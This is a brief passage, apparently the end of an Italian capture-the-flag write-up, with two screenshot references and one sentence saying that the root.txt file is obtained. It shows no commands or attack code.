

Si ottiene il file root.txt:



---
